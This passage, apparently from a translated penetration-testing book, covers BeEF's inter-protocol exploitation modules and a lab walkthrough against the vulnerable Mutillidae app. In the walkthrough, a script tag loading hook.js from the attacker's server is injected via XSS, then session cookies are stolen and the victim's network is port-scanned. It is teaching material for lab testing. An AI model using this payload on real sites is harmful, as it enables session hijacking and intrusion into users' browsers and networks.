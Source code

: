 使用网络侦察模块，您只需使用连接到 web 浏览器的 JavaScript 即可创建网络地图。

### 协议间开发与通信

**协议间开发与通信**（**IPEC**节点）中列出了另一套模块，可用于开发使用 HTTP 以外不同协议的应用程序。协议间通信是应用程序使用不同协议交换数据的过程。IPEC 中的模块旨在通过`POST`方法提交恶意负载，从而利用易受攻击的非 HTTP 应用程序。会话控制和协议的其他复杂组件由 BeEF 模块负责。

第一个模块是**跨站点传真**（**XSF**模块，可以通过您控制的僵尸发送协议间命令，通过易受攻击的活动传真服务器发送传真。您需要指定传真服务器的 IP 地址、端口号和收件人传真号，如以下屏幕截图所示：

![Inter-protocol exploitation and communication](../Images/image01214.jpeg)

IPEC 中一个有趣的模块是 Bindshell（Windows），它允许您通过利用的 web 浏览器连接到侦听 Windows shell。web 浏览器就像 IRC 通道一样，在 BeEF 服务器和 shell 之间传递命令。这个模块在一个场景中非常有用，在这个场景中，您已经有一台受损的机器生成了一个 shell，但是无法从 internet 访问它，并且不可能使用反向 shell。您可以使用钩住的浏览器通过 HTTP 协议将您的命令中继到受损机器。

## 使用 BeEF 开发 mutillidae XSS 缺陷

Mutillidae 是一个易受攻击的 web 应用程序，包含在我们在[第 4 章](14.html#aid-2QJ5E1 "Chapter 4. Major Flaws in Web Applications")中安装的 OWASP 易受攻击 web 应用程序虚拟机中，*web 应用程序中的主要缺陷*。

我们将使用 BeEF 利用 mutillidae web 应用程序中的 XSS 漏洞。在我的测试实验室中，我已经在一台 IP 地址为`192.168.1.72`的机器上安装了 mutillidae。XSS 漏洞的 URL 位于**OWASP Top 10**|**A2–跨站点脚本（XSS）**|**BeEF framework targets**|**DNS 查找**。

我们已经知道，**主机名/IP**字段容易受到 as XSS 漏洞的攻击。然后将 BeEF 钩子注入字段，该字段将从 BeEF 服务器将 JavaScript 下载到 web 浏览器上。一旦 web 浏览器连接到 BeEF 服务器，我们就可以执行命令模块并执行信息收集。

下面是要注入的代码。IP 地址将根据您的实验室设置而更改：

```
<script src="http://192.168.1.70:3000/hook.js"></script>
```

在下面的屏幕截图中，我们可以看到注入的钩子：

![Exploiting the mutillidae XSS flaw using BeEF](../Images/image01215.jpeg)

在 BeEF 服务器上，您将在在线浏览器窗格中看到受害者的 IP 地址。XSS 攻击最常见的用途是窃取 cookie，以便执行会话劫持攻击。使用**获取 Cookie**模块，我们可以提取分配给用户会话的 Cookie，而无需编写任何 JavaScript。选择**获取 Cookie**模块，点击右下角**执行**按钮。正如您在以下屏幕截图中所看到的，有两个 cookie 分配给用户会话：一个由 mutillidae web 服务器分配，名称为`PHPSESSID`，另一个由 BeEF 服务器本身分配，以标识 web 浏览器。

当**Set Cookie**响应头中包含**HttpOnly**标志时，可以帮助降低客户端 JavaScript 访问 Cookie 的风险：

![Exploiting the mutillidae XSS flaw using BeEF](../Images/image01216.jpeg)

接下来，我们将在与挂接浏览器位于同一网络上的机器上运行端口扫描。**端口扫描器**模块列在**网络**部分。**端口扫描仪**模块的配置选项不言自明。

如以下屏幕截图所示，您可以指定要扫描的端口，并为打开和关闭的端口定义超时：

![Exploiting the mutillidae XSS flaw using BeEF](../Images/image01217.jpeg)

端口扫描完成后的输出显示在**命令结果**窗格中，如下图所示：

![Exploiting the mutillidae XSS flaw using BeEF](../Images/image01218.jpeg)

## 使用 MITM 注射牛肉钩
